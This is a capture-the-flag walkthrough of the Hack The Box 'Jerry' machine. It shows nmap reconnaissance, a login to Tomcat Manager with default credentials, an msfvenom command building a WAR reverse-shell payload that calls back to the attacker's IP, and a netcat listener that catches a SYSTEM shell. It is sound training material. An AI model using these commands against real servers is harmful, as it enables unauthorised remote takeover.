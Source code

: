 # Jerry [HTB](https://app.hackthebox.com/machines/144)
![jerry-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/jerry-01.png)


## Recon 

After adding the target to my `/etc/hosts` file, I scan for open ports with:

```bash
nmap -p- --min-rate 10000 jerry.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/ports-02.png)

Let's run a software and version detection scan againts this port:

```bash
nmap -p 8080 -sCV jerry.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/nmap-res-03.png)

We can see that an Apache Tomcat/Coyote server is running on port 8080. Based on the site's title we can guess that the server is at a fresh install state. 


### Apache-Coyote Port 8080

Before we begin let's answer the following question: 

+ What is Coyote?

From the description of Coyote on the [Tomcat page](https://tomcat.apache.org/tomcat-4.1-doc/config/coyote.html) Coyote is a stand-alone web server that provides servlets to Tomcat applets. That is, it functions like the Apache web server, but for JavaServer Pages (JSP).

It comes with a web interface called the `Manager` which makes it easy to administer and control web applications running in Tomcat using a web browser. Using the Manager, you can deploy a new WAR application and control existing ones without having to restart Tomcat. 

This should be our exploitation strategy. 

Let's have a look at this server by opening our browser at `http://jerry.htb:8080` :

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/site-04.png)

As you can see, we have three main feature on this page: `Server Status`, `Manager App`, and `host Manager`, the `Manager App` is what we want access to. Each one of these feature controls different aspects of the Coyote server, and to access each feature we need valid credentials. 

For example, clicking on the `Server Status` button brings the following window:

![login-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/login-05.png)

After a few failed login attempts the server will lock you out for several minutes and disaply this error page:

![err-page-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/err-page-06.png)

As you can see, this page gives a description on how to add users and roles to adminster the server. And in this page we can see suggested credentilas of `tomcat:s3cret` which I highlighted in red. So I decided to try them out, and they worked!

![logged-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/logged-07.png)

As you can see, the server redirected me to `manager/status`, where we can view different statics and info about the server. But what we really want is to access the server Manager app. 


So I decided to click on the `List Application` button on the left side of the page, and the Manager loads:

![manager-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/manager-08.png)

Meaning, the `Server-Status` feature, and the `Manager App` feature of the Tomcat server reused the same credentials. So we have access to the manager, let's try to upload a WAR payload!

If we scroll down a bit we can see the WAR deployment section:

![deploy-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/deploy-09.png)

This is where we will upload our WAR payload. And as you can see, the server asks for a WAR file to deploy, which we need to create. We can do this with `msfvenom` as such:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.37 LPORT=9001 -f war > runme.war
```

![msfvenom-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/msfvenom-10.png)

Now we can click on the `Choose File` button and select the war payload we created:


![choose-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/choose-11.png)

And then select `Deploy`. After that, you should see a new application in the applications list called `runme`:

![new-app-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/new-app-12.png)

The tomcat server created a dedicated directory for the uploaded war application. Once we visit this directory, our WAR payload will execute and we should get a connection back to us.

So before we visit the page we need to start a local listener to catch the connection:

```bash
rlwrap nc -lnvp 9001
```

Now we can visit our malicious war application at `http://jerry.htb:8080/runme/` :

![visit-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/visit-13.png)

As you can see this returns an empty page, but on my netcat listener I get a connection:

![root-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/root-14.png)

Apperantly, the Tomcat server was running under `NT Authority` on the target. So when the reverse shell triggered, we got a shell as the system.

If you are after the CTF flags, there is no low level user on this system, only the Administartor user is present. Inside the admin's Desktop page you will find the following directory:

![flags-15]()

There you will find a file that contains both flags. 
